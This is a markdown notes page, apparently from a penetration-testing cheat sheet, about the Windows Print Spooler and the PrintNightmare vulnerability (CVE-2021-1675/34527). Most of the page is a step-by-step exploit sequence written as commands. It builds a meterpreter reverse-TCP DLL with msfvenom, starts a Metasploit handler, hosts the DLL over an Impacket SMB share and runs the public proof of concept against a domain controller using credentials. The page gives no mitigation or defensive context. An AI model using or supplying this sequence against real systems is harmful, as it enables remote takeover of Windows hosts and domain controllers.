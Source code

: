 ```yaml
---
title: Windows Print Spooler Service
desc: A service that is running on each computer that participates in the Print Services system. It may be vulnerable to the PrintNightmare (CVE-2021-1675 / CVE-2021-34527).
tags: [CVE-2021-1675, CVE-2021-34527, Impacket, Metasploit, Print, PrintNightmare, Windows]
alts: []
render_with_liquid: false
---
```


**[The proof of concept](https://github.com/cube0x0/CVE-2021-1675){:target="_blank"}** is available.

## Where is the Print Spooler on Windows

1. **Open Services**

2. **You are able to find the Print Spooler on the Right Pane**

3. **Double-Click on It**

    You can start/stop/pause/resume the Print Spooler in there.

<br />

## Exploit

1. **Clone the Repository**

    ```sh
    git clone https://github.com/cube0x0/CVE-2021-1675
    ```

2. **Download Impacket and Setup**

    ```sh
    git clone https://github.com/cube0x0/impacket
    cd impacket
    python3 setup.py install
    ```

3. **Create the Malicious DLL with Msfvenom**

    ```sh
    msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<local-ip> LPORT=<local-port> -f dll -o ./malicious.dll
    ```

4. **Start Metasploit and Reverse TCP**

    ```sh
    msfconsole

    msf > use exploit/multi/handler
    msf > set payload windows/x64/meterpreter/reverse_tcp
    msf > set lhost <local-ip>
    msf > set lport <local-port>

    msf > run -j

    # Started reverse tcp

    msf > jobs
    ```

5. **Host the Malicious DLL**

    ```sh
    cd impacket/examples
    python3 smbserver.py <share-name> <share-path> -smb2support
    ```

6. **Examine the Target Fits the Criteria to Exploit It**

    ```sh
    python3 rpcdump.py @<remote-ip> | egrep 'MS-RPRN|MS-PAR'
    # Protocol: [MS-RPRN]: Print System Remote Protocol 
    # Protocol: [MS-PAR]: Print System Asynchronous Remote Protocol
    ```

7. **Run the Exploit**

    ```sh
    cd CVE-2021-1675
    python3 CVE-2021-1675.py Domain.Controller.local/<username>:<password>@<remote-ip> '\\<local-ip>\path\to\malicious.dll'
    ```